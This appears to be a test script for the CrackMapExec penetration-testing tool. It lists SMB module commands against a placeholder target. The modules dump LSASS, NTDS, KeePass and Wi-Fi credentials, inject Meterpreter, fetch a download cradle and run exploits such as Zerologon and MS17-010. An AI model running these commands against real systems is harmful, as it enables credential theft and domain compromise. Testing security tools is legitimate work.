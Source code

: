 #crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M keepass_trigger -o ACTION=ALL USER=USERNAME KEEPASS_CONFIG_PATH=&quot;C:\\Users\\USERNAME\\AppData\\Roaming\\KeePass\\KeePass.config.xml&quot;<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M lsassy<br>
# You must replace this with the proper CA information!<br>
#crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M masky -o CA=&quot;host.domain.tld\domain-host-CA&quot;<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M met_inject -o SRVHOST=127.0.0.1 SRVPORT=4444 RAND=12345<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M ms17-010<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M msol<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M nanodump<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M nopac<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M ntdsutil<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M ntlmv1<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M petitpotam<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M procdump<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M rdcman<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M rdp --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M rdp -o ACTION=enable<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M rdp -o ACTION=disable<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M reg-query -o PATH=HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion KEY=DevicePath<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M runasppl<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M scuffy -o SERVER=127.0.0.1 NAME=test<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M scuffy -o NAME=test CLEANUP=True<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M shadowcoerce<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M slinky -o SERVER=127.0.0.1 NAME=test<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M slinky -o NAME=test CLEANUP=True<br>
# spider_plus takes a while to run, so it is commented out during normal testing<br>
# crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M spider_plus -o MAX_FILE_SIZE=100<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M spooler<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M teams_localdb<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M test_connection --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M test_connection -o HOST=localhost<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M uac<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M veeam<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M wdigest --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M wdigest -o ACTION=enable<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M wdigest -o ACTION=disable<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M web_delivery --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M web_delivery -o URL=localhost/dl_cradle<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M webdav<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M webdav --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M webdav -o MSG=&quot;Message: {}&quot;<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M wifi<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M winscp<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M zerologon<br>